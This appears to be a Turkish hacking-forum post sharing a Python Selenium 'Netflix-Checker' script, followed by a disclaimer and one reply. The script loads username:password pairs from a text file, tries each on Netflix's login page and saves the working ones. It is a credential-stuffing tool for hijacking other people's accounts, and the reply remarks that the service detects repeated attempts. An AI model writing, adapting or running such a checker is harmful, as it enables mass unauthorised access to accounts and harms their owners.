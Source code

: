 # Netflix-Checker
import os
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.support.ui import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from colorama import Fore, Style



# Dosya varlığını kontrol et ve varsa kullanıcı adı ve şifreyi oku
with open('hesaplar.txt', 'r') as file:
    for line in file:
        username, password = line.strip().split(':')
        print(f"Kullanıcı adı: {username}")

        # Webdriver'ı başlat ve giriş sayfasına git
        browser = webdriver.Chrome()
        browser.get("https://www.netflix.com/tr/login")

        # Bekleyiciyi ayarla
        wait = WebDriverWait(browser, 10)

        # Kullanıcı adı ve şifrenizi girin ve giriş yapın
        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'input[name="userLoginId"]'))).send_keys(username)
        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'input[name="password"]'))).send_keys(password)
        wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, 'button[type="submit"]'))).click()

        try:
            # Profil seçme sayfasının yüklenmesini bekle
            wait.until(EC.element_to_be_clickable((By.CSS_SELECTOR, '.profile-icon')))
            print(Fore.GREEN + f"Giriş başarılı: {username}" + Style.RESET_ALL)
            # Başarılı hesapları ayrı bir dosyaya kaydet
            with open('basarili_hesaplar.txt', 'a') as f:
                f.write(f"{username}:{password}\n")
        except:
            # Başarısız hesapları ayrı bir dosyaya kaydet
            print(Fore.RED + f"Giriş başarısız: {username}" + Style.RESET_ALL)
            with open('basarisiz_hesaplar.txt', 'a') as f:
                f.write(f"{username}:{password}\n")
        finally:
            # Tarayıcıyı kapat
            browser.quit()

İyi forumlar.
Son düzenleme: Nis 2, 2023
Dikkat:Bu forumda paylaşılan herhangi bir içeriğin sorumluluğunu kabul etmediğimi beyan ederim. Bu forumda paylaşılan herhangi bir materyalin doğruluğunu, eksiksizliğini veya yasallığını garanti etmiyorum ve herhangi bir zarar veya kayıp durumunda sorumlu tutulamazım. Herhangi bir forum kullanıcısı, paylaşılan içeriği kullanmadan önce kendi takdiri ve sorumluluğu altında olmalıdır.

-Koschei97
CevaplaRapor Düzenle
LikeTepkiler: ege3132421, caferzıpcıktı, ane ve 54 diğerleri
Hanx
0 ₺
Bakiye
3
Begeni
.
KatılımEki 14, 2021
Mesajlar27
Tcoin19,820
Mar 24, 2023
Yeri işaretle
#2
Sebebi üst üste denemelerin argoritma algılıyor ve girdiğin uygulamaya tüm hesaplari engeller aynısı bana oldu
 LikeCevaplaRapor
